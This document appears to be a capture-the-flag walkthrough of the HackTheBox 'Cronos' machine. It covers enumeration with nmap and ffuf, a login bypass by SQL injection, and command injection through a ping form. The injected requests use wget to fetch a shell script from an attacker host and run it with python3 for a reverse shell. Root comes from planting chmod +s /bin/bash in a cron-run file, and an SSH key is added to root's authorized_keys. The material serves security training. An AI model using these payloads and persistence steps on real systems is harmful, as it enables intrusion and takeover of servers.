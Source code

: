 # cronos

`nmap` scan

```text
# Nmap 7.91 scan initiated Mon Aug  9 16:30:55 2021 as: nmap -sS -sV -sC -A -O -p- --min-rate 1000 -oN cronos 10.129.30.241
Nmap scan report for 10.129.30.241
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
# not much here

53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
# nothing here

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

an `nmap` script on the `DNS` server. Let's run it in background, while we look at the `HTTP` server. Update: nothing much from here

```text
nmap -p53 --min-rate 1000 --script broadcast-dns-service-discovery.nse,dns-blacklist.nse,dns-brute.nse,dns-cache-snoop.nse,dns-check-zone.nse,dns-client-subnet-scan.nse,dns-fuzz.nse,dns-ip6-arpa-scan.nse,dns-nsec-enum.nse,dns-nsec3-enum.nse,dns-nsid.nse,dns-random-srcport.nse,dns-random-txid.nse,dns-recursion.nse,dns-service-discovery.nse,dns-srv-enum.nse,dns-update.nse,dns-zeustracker.nse,dns-zone-transfer.nse,fcrdns.nse 10.129.30.241
```

on `ffuf`'ing the `HTTP` server with `10.10.10.13 cronos.htb` \(there is just apache page on using with IP address\), we get a `Laravel` page

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.39.02.png)

and a `web.config` on the `ffuf` scan

```text
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.13/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/common.txt
 :: Header           : Host: cronos.htb
 :: Extensions       : .php .txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 294, Words: 22, Lines: 12]
                        [Status: 200, Size: 2319, Words: 990, Lines: 86]
robots.txt              [Status: 200, Size: 24, Words: 2, Lines: 3]
server-status           [Status: 403, Size: 298, Words: 22, Lines: 12]
web.config              [Status: 200, Size: 914, Words: 209, Lines: 24]
:: Progress: [13842/13842] :: Job [1/1] :: 814 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

```text
<configuration>
  <system.webServer>
    <rewrite>
      <rules>
        <rule name="Imported Rule 1" stopProcessing="true">
          <match url="^(.*)/$" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Redirect" redirectType="Permanent" url="/{R:1}" />
        </rule>
        <rule name="Imported Rule 2" stopProcessing="true">
          <match url="^" ignoreCase="false" />
          <conditions>
            <add input="{REQUEST_FILENAME}" matchType="IsDirectory" ignoreCase="false" negate="true" />
            <add input="{REQUEST_FILENAME}" matchType="IsFile" ignoreCase="false" negate="true" />
          </conditions>
          <action type="Rewrite" url="index.php" />
        </rule>
      </rules>
    </rewrite>
  </system.webServer>
</configuration>
```

these pages are not revealing much to us, So lets do a `subdomain enumeration`

```text
:: Method           : GET
 :: URL              : http://10.10.10.13/index.php
 :: Wordlist         : FUZZ: ./dnsrecon/subdomains-top1mil-20000.txt
 :: Header           : Host: FUZZ.cronos.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57]
www                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
WWW                     [Status: 200, Size: 2319, Words: 990, Lines: 86]
:: Progress: [20000/20000] :: Job [1/1] :: 588 req/sec :: Duration: [0:00:34] :: Errors: 24 :
```

so there is a `SQLi` vulnerability on the `admin.cronos.htb` page. We get a logged in session if we try that.

![](../../.gitbook/assets/screenshot-2021-08-09-at-22.58.27.png)

on the logged in session we have an option to `ping` and `traceroute`, although `traceroute` doesn't work. and if we intercept the ping in `Burp`, we see there might be some `code injection` that might be going on.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.03.10%20%281%29%20%281%29.png)

this below is my attempt on getting a `reverse shell` on the box

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.16.38%20%281%29%20%281%29%20%281%29%20%281%29.png)

and now, we need to run the following commands on the `Burp repeater`

```text
command=wget+10.10.14.31%3a81/shell.py+-O+/tmp/shell.py;ping+-c+1&host=8.8.8.8
command=python3+/tmp/shell.py;ping+-c+1&host=8.8.8.8
```

and, we got a reverse shell as `www-data`

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.18.40%20%281%29.png)

and we have got a `config.php` here in our working folder, let's try to go to sql.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.20.57.png)

admin pass, not sure if this will lead us to something. So nothing much here after trying to crack this.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.21.45%20%281%29%20%281%29%20%281%29.png)

maybe we got something here.

![](../../.gitbook/assets/screenshot-2021-08-09-at-23.26.34.png)

nope, none of this works. By the name of the box, it maybe that there is some `cron jobs` running here. Looking at processes using `pspy`, we can see a pho job running every minute

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.19.47%20%281%29%20%281%29%20%281%29%20%281%29.png)

so we can modify this file to get code execution as `root` user, so let's do that now. So what I did here is, add a line that says

```text
system('chmod +s /bin/bash');
```

in the `/var/www/html/artisan` file. \(it might spoil the box for others if we do this on a shared machine\)

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.26.03.png)

and we are root now. If you want a root ssh shell from now on, its very easy to do that, just add your ssh pub key in the `/root/.ssh/authorized_keys` file and make its permissions as

```text
chmod go= /root/.ssh/authorized_keys
```

![](../../.gitbook/assets/screenshot-2021-08-10-at-00.18.34.png)

